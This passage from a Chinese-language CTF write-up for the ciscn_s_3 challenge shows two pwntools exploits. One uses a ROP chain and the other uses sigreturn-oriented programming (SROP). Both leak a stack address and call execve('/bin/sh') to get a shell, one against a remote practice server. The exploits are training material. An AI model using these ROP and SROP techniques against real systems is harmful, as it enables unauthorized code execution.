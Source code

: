 ```python
payload1 = b'a'*0x10 + p64(vuln_addr)
io.sendline(payload1)

io.recv(0x20)

stack_addr = u64(io.recv(8))
binsh_addr = stack_addr - 0x118
io.recv(0x38)

payload2 = b'/bin/sh\x00'.ljust(0x10, b'a') + p64(pop_rbx_rbp_r12_r13_r14_r15_ret)
payload2 += p64(0)*2 + p64(binsh_addr+0x50) + p64(0)*3
payload2 += p64(mov_rdx_r13_mov_rsi_r14_mov_edi_r15_call_r12) + p64(mov_rax_59_ret)
payload2 += p64(pop_rdi_ret) + p64(binsh_addr) + p64(syscall)

io.sendline(payload2)
io.interactive()
```

执行截图

![image-20210827162304078](image-20210827162304078.png "执行结果")

## 0x03 sigreturn/SROP解法

贴一下别人的exp，等我学习一下SROP再回过头来看。

```python
from pwn import *
context.arch = 'amd64'
p =remote('node3.buuoj.cn',26063)# process('./ciscn_s_3') # 
e = ELF('./ciscn_s_3')
mov_rax_15_ret = 0x4004da
vuln_addr = 0x4004ed
syscall_addr = 0x400517
payload1 = b'A' * 0x10 + p64(vuln_addr)


p.sendline(payload1)
p.recv(0x20)
stack_leak = u64(p.recv(8)) - 0x118
log.info("stack addr: " + hex(stack_leak))

frame = SigreturnFrame()
frame.rax = 0x3b # syscall::execve, constants.SYS_execve is also ok
frame.rip = syscall_addr
frame.rdi = stack_leak
frame.rsi = 0
frame.rdx = 0
payload2 = b'/bin/sh\x00' + p64(0xdeadbeef) + p64(mov_rax_15_ret) + p64(syscall_addr) + bytes(frame)

p.sendline(payload2)
p.interactive()
```
